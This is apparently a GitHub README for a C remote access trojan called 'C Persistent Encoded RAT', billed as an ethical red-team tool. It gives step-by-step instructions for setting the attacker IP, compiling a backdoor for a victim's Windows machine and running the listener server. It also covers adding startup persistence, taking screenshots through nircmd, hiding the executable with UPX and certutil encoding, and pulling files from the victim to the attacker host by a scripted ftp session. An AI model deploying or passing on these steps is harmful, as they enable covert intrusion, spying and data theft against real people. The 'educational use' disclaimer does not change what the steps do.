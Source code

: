 # C Persistent Encoded RAT </br>
[![Version](https://img.shields.io/badge/EP-0.1-brightgreen.svg?maxAge=259200)]()
[![Stage](https://img.shields.io/badge/Release-Testing-brightgreen.svg)]()
[![Build](https://img.shields.io/badge/Supported_OS-Windows/Linux-orange.svg)]()
[![Contributions Welcome](https://img.shields.io/badge/New-Major-Update-Coming-blue.svg?style=flat)]()
</br>
**by Pol Galvez** </br>
### _Ethical Remote Access Tool for Red Teams / Educational use ONLY_ </br>
Do not use for Black Hat purposes

![alt text](https://raw.githubusercontent.com/PolGs/C-EthicalRAT/main/image_2021-07-30_221130.png)
## How to Use</br>
-> **Configure Attacker IP:(backdoor.c - line 19)**
```sh
char *ServIP  = "192.168.174.129";//Server IP
```
-> **Configure Attacker IP:(server.c -line 90)**
```sh
server_address.sin_addr.s_addr = inet_addr("192.168.174.129");//Server address
```
-> **Compile client for victims windows machine:**
```sh
i686-w64-mingw32-gcc -o /Documents/EternalPurple/backdoor.exe /Documents/EternalPurple/backdoor.c -lwsock32 -lwininet
```
->**Compile server for linux attackers machine:**
```sh
gcc /home/kali/Documents/EternalPurple/server.c -o /home/kali/Documents/EternalPurple/server.exe
```
->**Execute**
```sh
./server.exe
backdoor.exe
```

Commands assume that you have a linux OS and mingw installed
Also that you have backdoor.c and server.c on a Folder Called EternalPurple on your Documents


## Functionalities: </br>
### Enable run on startup:
![alt text](https://github.com/PolGs/C-EthicalRAT/blob/main/Screenshot%202021-07-29%20012247.png?raw=true)

## Thanks to
thanks to  • SCHØØL ZERØ • for tutorials on how to do this
https://www.youtube.com/c/SCHØØLZERØ <br>
Creating similar RAT<br>
https://youtu.be/6Dc8i1NQhCM<br>
Playlist on basic windows rat .dll</br>
https://youtube.com/playlist?list=PLSqjYSJtqeaV1Hdk2ZVnr90KpDObfzDSs

Easy metasploit spyware tutorial:<br>
https://youtu.be/V67VIQB7N0w

## Other
To gain spyware functionalities you can use nircmd: https://www.nirsoft.net/utils/nircmd.html

## nircmd command to take screenshots
nircmd.exe savescreenshot screen1.png

## UPX to Obfuscate executable \n
UPX: https://upx.github.io
```sh
upx program.exe
```
You can also use certutil to encode executable
```sh
certutil -encode test.exe test.txt
```
```sh
certutil -decode test.txt test.exe
```
## ftp echos to Download files change put for get to Upload (This is done client side on the Shell)
```sh
echo open 192.168.1.171 >> ftp.txt
echo kali>> ftp.txt
echo kali>> ftp.txt
echo bin>> ftp.txt
echo put s1.png>> ftp.txt
echo bye>> ftp.txt

ftp -s:ftp.txt

open 192.168.44.130
kali
kali
put P1010975.JPG
bye
```

![image](https://user-images.githubusercontent.com/19478700/171412307-74253cd4-4b28-4d6f-9439-c4203e746253.png)



## License
Open Source<br>
**Free Software, Hell Yeah!**
